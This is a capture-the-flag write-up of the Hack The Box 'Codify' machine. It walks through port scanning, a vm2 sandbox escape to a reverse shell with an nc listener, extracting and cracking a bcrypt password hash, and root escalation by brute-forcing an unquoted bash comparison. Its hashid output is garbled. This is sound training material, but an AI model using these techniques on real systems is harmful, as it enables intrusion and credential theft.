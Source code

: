 ```yaml
---
title: Hack the box Codify pwned!
date: 2024-02-24 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, machine, codify, vm2 library, sqlite, posix variable quotes]
img_path: /assets/img/posts/
---
```


## Machine info

![Codify](htb-codify-info.png)
*Codify info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.96
>
>Target machine (victim, Devvortex): 10.10.11.239
{: .prompt-info}

## Enumeration

If we list the open ports in the machine, we can see that there are two open ports: 22 (ssh) and 80 (http):

`nmap -Pn -n -sS -p- -T5 --min-rate 5000 -oN nmap_initial.txt 10.10.11.239`

```
22/tcp open  ssh
80/tcp open  http
```

## Footprinting

If we look for more information about the services running in those ports we will find the machine address:

`map -Pn -n -sVC -p22,80 10.10.11.239`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add the machine address to our `/etc/hosts`:

`echo "10.10.11.239 codify.htb" | sudo tee -a /etc/hosts`

### Codify web

We browse to `http://codify.htb` to take a look at the web:

#### Codify

![Codify](htb-codify-web-codify.png)
*Codify*

#### About us

![Codify about us](htb-codify-web-about-us.png)
*Codify about us*

Here, we can see that the editor is using the [vm2 library](https://github.com/patriksimek/vm2).

#### Limitations

![Codify limitations](htb-codify-web-limitations.png)
*Codify limitations*

#### Editor

![Codify editor](htb-codify-web-editor.png)
*Codify editor*

## Foothold

As the editor is using the [vm2 library](https://github.com/patriksimek/vm2), and this project is discontinued due security issues, we let's take advantage of a [sandbox escape PoC in vm2](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) to inject a reverse shell in the editor.

We start a listener in our host:

```
nc -lvnp 1234
``` 

And, we inject the reverse shell in the editor:

![Codify editor reverse shell](htb-codify-web-editor-reverse-shell.png)
*Codify editor reverse shell*

### svc

Now, we get shell as the user `svc`.

```
svc@codify:~$ whoami 
svc
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

After taking a look at the system files, in `/var/www/contact` we can find the sqlite3 database `tickets.db`.
Inside we will find the hashed password for the user `joshua`:

`sqlite3 tickets.db`

```
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We analyze the hash to see what type it is:

```
hashid $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2  
Analyzing 'a/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
[+] Cisco Type ba4c0cfe23b95aef6f5df7d0c88d6ce
```

We put the hash in the `hash.txt`file:

`echo "$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2" > hash.txt`

And, we crack the hash using `hashcat`:

```
hashcat -a 0 -m 3200 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

### joshua

Now, we have a new user and paswsword, and since seems useless on the web, we will try to connect by `ssh`:

`ssh joshua@10.10.11.239`

And we are in!

```
joshua@codify:~$ id 
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

We can get our user flag:

`joshua@codify:~$ cat user.txt`

After taking our flag, we need to escalate privileges, so let's take a look to see what we can do as `joshua`:

```
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

We can execute the `/opt/scripts/mysql-backup.sh` script as root, so let's take a look at the source code:

```bash
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

Ok, we can see that the programmer forgot to quote the variables in the passwords comparision:

```bash
if [[ $DB_PASS == $USER_PASS ]]
```

So, we can exploit this in order to get the root password.
If you want to know more about the implications of forgetting to quote a variable in bash comparisons you can take a look at this **GREAT** post in [stackexchange](https://stackexchange.com/):
[security implications of forgetting to quote a variable in bash posix shells](https://unix.stackexchange.com/questions/171346/security-implications-of-forgetting-to-quote-a-variable-in-bash-posix-shells)

To bruteforce the root password I did a python script that you can see here: [bruceforcer.py](https://github.com/rubenhortas/hackthebox/blob/main/codify/bruteforcer.py)

After a while we will have our root password and we can get the system flag:

`su`

`root@codify:~# cat /root/root.txt`

## Pwned!

![Codify](htb-codify-pwned.png)
*Codify has been Pwned*

*Enjoy! ;)*
